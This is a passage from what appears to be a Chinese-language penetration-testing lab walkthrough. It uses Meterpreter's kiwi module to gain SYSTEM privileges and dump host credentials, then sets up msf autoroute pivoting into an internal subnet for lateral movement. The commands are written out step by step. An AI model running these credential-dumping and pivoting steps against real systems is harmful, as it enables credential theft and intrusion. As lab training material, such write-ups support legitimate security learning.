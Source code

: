 网卡配置

```
10.10.10.132		#网卡一


192.168.52.143		#网卡二
```

#### 2.kiwi 主机密码收集

```
load kiwi #加载kiwi
getsystem #提权
creds_all #查看密码

#提示错误 需要转移进程去x64

ps #找一个x64的进程的pid
migrate 5328 #迁移进程

#重新执行
load kiwi
getsystem
creds_all
```

> 发现到主机密码

## 3、横向移动

### 1、搭建隧道

横向渗透前，先将该web服务器配置为代理服务器当作跳板机。

#### msf+proxychains

可用msf直接搭建sock隧道

##### msf创建路由

进入session，创建路由:

```
run autoroute -s 192.168.52.0/24  #将session的主机的192.168.52.0/24 网段路由到msf
```

![在这里插入图片描述](https://tobyjpghub-1258737888.cos.ap-shanghai.myqcloud.com/e6c9d24egy1h0ivj0b1u3j20zw0a640o.jpg)

查看路由：

```
run autoroute -p
```

![在这里插入图片描述](https://img-blog.csdnimg.cn/2020112321301510.png?x-oss-process=image/watermark,type_ZmFuZ3poZW5naGVpdGk,shadow_10,text_aHR0cHM6Ly9ibG9nLmNzZG4ubmV0L3FxXzQxODIxNjAz,size_16,color_FFFFFF,t_70#pic_center)
